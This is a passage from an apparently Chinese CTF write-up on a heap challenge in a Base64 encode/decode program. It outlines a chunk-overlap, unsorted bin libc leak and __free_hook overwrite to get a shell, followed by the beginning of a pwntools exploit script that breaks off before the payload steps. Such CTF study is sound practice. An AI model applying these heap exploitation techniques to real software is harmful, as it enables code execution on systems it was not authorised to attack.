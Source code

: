 此时 chunk_2 就可以任意修改 chunk_3 的 size，甚至能够读取到 free 后的 chunk_3 的 fd、tcache bin num 值.  
接下来的流程就是普通通过 unsorted bin attack 获取 libc 基址，然后通过 libc 打 `__free_hook` getshell，笔者不再赘述.(中间笔者获取了 heap_struct_base 打 tcache_perthread_struct，实则完全没必要，直接 unsorted bin 获取 libc 打 `__free_hook` 就行了)  

```py
# by leeya_bug

from ast import literal_eval
from pwn import *
import time
import os
import base64

SLEEP_TIME = 0.2

context.os = 'linux'
#context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./debug/pwn')
libc = ELF('/home/leeya_bug/桌面/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')

def debug(interact = True, query = ''):
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -ex "{query}" -p {p.pid}' '''])
	if interact: p.interactive()
	
def original_debug(interact = True):
	gdb.attach(p)
	if interact: p.interactive()

u64_ = lambda a: u64(a.ljust(8,b'\x00'))

# ------------- 基本配置 -------------

def add_Encode(content: bytes) -> None:
	p.sendlineafter(b'Enter your choice:', b'1')
	p.sendafter(b'Enter the text to encode:', content)

def add_Decode(content: bytes) -> None:
	p.sendlineafter(b'Enter your choice:', b'2')
	p.sendafter(b'Enter the text to decode:', content)

def del_Encode(index: int) -> None:
	p.sendlineafter(b'Enter your choice:', b'3')
	p.sendlineafter(b'idx:', str(index).encode())

def del_Decode(index: int) -> None:
	p.sendlineafter(b'Enter your choice:', b'4')
	p.sendlineafter(b'idx:', str(index).encode())
	
def show_Decode(index: int) -> None:
	p.sendlineafter(b'Enter your choice:', b'6')
	p.sendlineafter(b'idx:', str(index).encode())
	p.recvuntil(b'Content: ')
	return p.recvuntil(b'Base64 Encode/Decode').split(b'Base64 Encode/Decode')[0].strip(b'\n')

# --------------

def Padding(chunk_header: int) -> str:
	return base64.b64encode((chunk_header - 0x10 + 0x05) * b'\x00')

# payload1 decode length: 0x38, data: 0x00
```